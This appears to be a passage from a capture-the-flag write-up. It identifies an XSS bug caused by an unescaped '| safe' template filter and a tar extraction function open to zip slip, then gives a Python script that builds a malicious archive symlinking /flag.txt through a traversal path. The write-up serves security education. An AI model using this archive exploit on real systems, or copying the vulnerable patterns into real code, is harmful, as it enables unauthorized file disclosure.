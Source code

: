 2. at `challenge/application/templates/review.html#L20:L29` there's an XSS 

```html
<div class="container" style="margin-top: 20px"> {% for report in reports %} <div class="card">
        <div class="card-header"> Reported by : {{ report.reported_by }}
        </div>
        <div class="card-body">
        <p class="card-title">Module ID : {{ report.module_id }}</p>
          <p class="card-text">Issue : {{ report.issue | safe }} </p>
          <a href="#" class="btn btn-primary">Reply</a>
          <a href="#" class="btn btn-danger">Delete</a>
        </div>
      </div> {% endfor %} </div>
```

3. At `challenge/application/util.py#L17:L42` there's a `zip slip vulnerability in that function it will extract the archive without sanitizing the file name and checking is it a `symlink` file or not.

```python
def extract_firmware(file):
    tmp  = tempfile.gettempdir()
    path = os.path.join(tmp, file.filename)
    file.save(path)

    if tarfile.is_tarfile(path):
        tar = tarfile.open(path, 'r:gz')
        tar.extractall(tmp)

        rand_dir = generate(15)
        extractdir = f"{current_app.config['UPLOAD_FOLDER']}/{rand_dir}"
        os.makedirs(extractdir, exist_ok=True)
        for tarinfo in tar:
            name = tarinfo.name
            if tarinfo.isreg():
                try:
                    filename = f'{extractdir}/{name}'
                    os.rename(os.path.join(tmp, name), filename)
                    continue
                except:
                    pass
            os.makedirs(f'{extractdir}/{name}', exist_ok=True)
        tar.close()
        return True

    return False
```

It can be concluded,  We need to chain the bug from XSS to zip-slip for getting the flag.

Our first to-do is creating a malicious archive and symlinking the file /flag.

```python
import tarfile, os

if not os.path.exists('symlink'):
    os.symlink('/flag.txt', 'symlink')

path = "../app/application/static/js/flag"
tf = tarfile.open('exploit.tar.gz' , 'w:gz')
tf.add('symlink', path)
tf.close()
```
